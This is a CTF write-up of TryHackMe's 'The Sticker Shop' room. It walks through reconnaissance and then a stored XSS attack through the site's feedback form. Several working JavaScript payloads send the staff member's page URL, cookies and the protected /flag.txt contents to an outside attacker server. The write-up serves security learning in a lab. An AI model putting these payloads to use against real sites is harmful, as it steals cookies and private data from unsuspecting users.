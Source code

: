 # Write-Up: The Sticker Shop
**Date:** 01/27/2025

**User:** [JAKK](https://tryhackme.com/p/JAKK)

[The Sticker Shop](https://tryhackme.com/r/room/thestickershop) is an easy-ranked CTF box that challenges us to access a flag at a specified location of the web server. It introduces us to a common web vulnerability found in websites, seldom being showcased on TryHackMe.

## Reconaissance

### Port Scan
We start by scanning the target for open ports using *nmap*.
```
nmap -sV -sC -T4 -p0-65535 sticker.thm
```

```
Host is up (0.037s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b2:54:8c:e2:d7:67:ab:8f:90:b3:6f:52:c2:73:37:69 (RSA)
|   256 14:29:ec:36:95:e5:64:49:39:3f:b4:ec:ca:5f:ee:78 (ECDSA)
|_  256 19:eb:1f:c9:67:92:01:61:0c:14:fe:71:4b:0d:50:40 (ED25519)
8080/tcp open  http    Werkzeug httpd 3.0.1 (Python 3.8.10)
|_http-server-header: Werkzeug/3.0.1 Python/3.8.10
|_http-title: Cat Sticker Shop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see two open ports with the web service being offered on `8080`. Let's open the page with a web browser.

### Inspecting the Website
![Homepage of hosted website](img/StickerShop-InitialPage.png)

Apart from two buttons and cat images, there is nothing to see.

- We're not able to inspect the `/static/` route or its subfolders, such as `/static/images/`, which contains the image files. The images are sequentially named, i.e. `cat_sticker_1.png`, `cat_sticker_2.png`. The absence of `cat_sticker_3.png` likely tells us that there exist no other images. Since the file format is PNG, no secret information could have been embedded via steganography.
- Inspecting the buttons, we can see that *Home* leads us to `/`, i.e. the position we're currently at, while *Feedback* brings us to `/submit_feedback`. There we find an input form that allows us to submit feedback, which is sent to the same URI via POST.

![Feedback page of the hosted website](img/StickerShop-FeedbackPage.png)

- If we try to access the flag under the known location (`http://sticker.thm:8080/flag.txt`), we receive the response code `401`, which tells us that we are not authorized to access the page.

### Fuzzing
Let's see if we can find more resources on the server via `gobuster`. Since no domain name is known for the website, we can only enumerate directories, not subdomains. Additionally, we will also look for files with the extensions `.txt`, `.py`, `.bak` and `.sql`, to find potential backups or source code.

```
gobuster dir -u 'http://sticker.thm:8080/' -w '/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt' -x 'txt,py,bak,sql'
```

As a result, we only find the already known path `/flag.txt`.

In general, it's also worth checking if there are any hidden GET or POST parameters being evaluated on the known routes, which can be done via [arjun](https://github.com/s0md3v/Arjun).

```
arjun -u http://sticker.thm:8080/submit_feedback -m POST
[*] Scanning 0/1: http://sticker.thm:8080/submit_feedback
[*] Probing the target for stability
[*] Analysing HTTP response for anomalies
[+] Extracted 1 parameter from response for testing: feedback
[*] Logicforcing the URL endpoint
[!] No parameters were discovered.
```

Unfortunately, we can't find any hidden parameters.

## Tampering With the Input Form
When we send feedback via the input form (on `/submit_feedback`) we're being told that the message will be evaluated shortly by the site's staff. It could be possible that the person doing this might use a web browser to access a restricted section of the site, in which case we can try to inject some Javascript code into the staff's rendered webpage by including code in the message. This of course only works if the submitted message isn't sanitized by the server. To test this, we will start a simple webserver with Python and see if requests on it are being made.

We start the server with the following command.
```
python -m http.server 9000
```

We then send the following message via the form. The code included in the `<script>` tags prompts an HTTP request to our local server which is performed by the staff's browser. Depending on the fact if a request is made, we can determine if the XSS attack works.
```
<script>
var req = new XMLHttpRequest();
req.open("GET", "http://10.9.4.33:9000/" + window.location.href, false);
req.send();
</script>
```
And indeed, we can see that the Javascript code of our submitted feedback is executed.
```
Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...
10.10.194.50 - - [27/Jan/2025 10:23:56] code 404, message File not found
10.10.194.50 - - [27/Jan/2025 10:23:56] "GET /http://127.0.0.1:8080/view_feedback HTTP/1.1" 404 -
```
Navigating to the newly found route, `/view_feedback`, won't give us more information about the site since authentication is required. But we can now try to elevate the XSS to reach our goal!

Trying the easiest thing, we use the following message to dump the session cookies of the staff. This only works if the creators of the website forgot to set the cookies as HttpOnly, allowing Javascript to access them.
```
<script>
var req = new XMLHttpRequest();
req.open("GET", "http://10.9.4.33:9000/" + document.cookie, false);
req.send();
</script>
```
Unfortunately, we reveive a request on `/`, meaning that the session cookies, if existent, can't be read by our injected code.

But since the staff obviously can access the `/view_feedback` route, which requires authentication, he is likely able to access `/flag.txt`. We therefore extend our payload and let the staff's browser make a request for the flag, whose value is then sent to us.

```
<script>
var flag_req = new XMLHttpRequest();
flag_req.open("GET", "/flag.txt", false);
flag_req.send();
var share_req = new XMLHttpRequest();
share_req.open("GET", "http://10.9.4.33:9000/" + flag_req.responseText, false);
share_req.send();
</script>
```

It's important to reference the flag by its relative path, otherwise the payload will not work. This is probably due to CORS rules, preventing the access to the file from outside the domain. Finally, we retrieve the flag from the requested URI that we can inspect in the shell session where we launched the server.
```
Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...
10.10.194.50 - - [27/Jan/2025 10:33:07] code 404, message File not found
10.10.194.50 - - [27/Jan/2025 10:33:07] "GET /THM%7B-REDACTED_FLAG-%7D HTTP/1.1" 404 -
```

Note that the string is URL encoded. We can decode it with hURL.
```
hURL -u "THM%7B-REDACTED_FLAG-%7D"
Original    :: THM%7B-REDACTED_FLAG-%7D
URL DEcoded :: THM{-REDACTED_FLAG-}
```

## Conclusion
I really enjoyed this CTF, since XSS attacks are quite rare on TryHackMe and similar platforms, probably due to the necessary user interaction which needs to be emulated. Thanks to TryHackMe user [toxicat0r](https://tryhackme.com/p/toxicat0r) for creating this room.
